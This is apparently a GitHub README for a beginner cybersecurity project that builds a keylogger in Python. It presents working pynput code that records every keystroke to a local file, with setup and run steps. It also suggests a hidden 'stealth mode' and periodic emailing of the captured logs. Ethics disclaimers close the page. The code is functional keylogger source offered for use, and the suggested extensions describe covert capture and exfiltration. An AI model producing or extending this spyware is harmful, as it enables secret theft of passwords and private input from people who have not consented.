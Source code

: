 # Task-2-Keylogger-Software
Task 2 Keylogger Software  Description: Keylogger software is a good beginner-level cyber security project. A keylogger is software used to record every keystroke made by the user on their keyboard devices.



Plan for Educational Keylogger Development
The following plan outlines how to create a basic keylogger for learning purposes only. This keylogger will be developed in Python for simplicity.

Step 1: Environment Setup
Install Python (if not already installed).

Download from python.org.
Install Required Libraries: Use pip to install the following:

bash
Copy code
pip install pynput
pynput: A library to listen to keyboard events.
Step 2: Keylogger Code
Create a Python script called keylogger.py:

python
Copy code
from pynput import keyboard

# File to store the recorded keystrokes
LOG_FILE = "keylog.txt"

def on_press(key):
    try:
        with open(LOG_FILE, "a") as log:
            log.write(f"{key.char}")
    except AttributeError:  # Special keys (e.g., Shift, Ctrl)
        with open(LOG_FILE, "a") as log:
            log.write(f"[{key}]")

def on_release(key):
    if key == keyboard.Key.esc:  # Stop listener on Escape key
        return False

# Set up a listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    print("Keylogger is running. Press 'Escape' to stop.")
    listener.join()
How It Works
Key Event Listener:

The pynput library listens to key presses and releases.
It records alphanumeric keys (key.char) and special keys (e.g., [Shift]).
Log File:

Keystrokes are saved in keylog.txt in the script's directory.
Exit Mechanism:

Pressing the Escape key stops the logger.
Step 3: Testing
Run the script in the terminal:

bash
Copy code
python keylogger.py
Type on your keyboard while the script is running.

Open keylog.txt to view the recorded keystrokes.

Extending the Project
Add Timestamps: Record the time of each keystroke:

python
Copy code
import time
log.write(f"{time.strftime('%Y-%m-%d %H:%M:%S')} - {key.char}\n")
Stealth Mode: Make the script run in the background (e.g., as a hidden process). Note: This must comply with legal and ethical standards.

Email Logs: Send logs via email periodically (e.g., using smtplib).

Platform-Specific Features: Adjust the script for Windows, macOS, or Linux if necessary.

Important Considerations
Ethical Usage: Use only on your own devices or in environments where you have explicit permission.
Secure the Logs: Encrypt or protect the log file to avoid misuse.
Avoid Misuse: Any unauthorized deployment or use of a keylogger is strictly illegal and unethical.

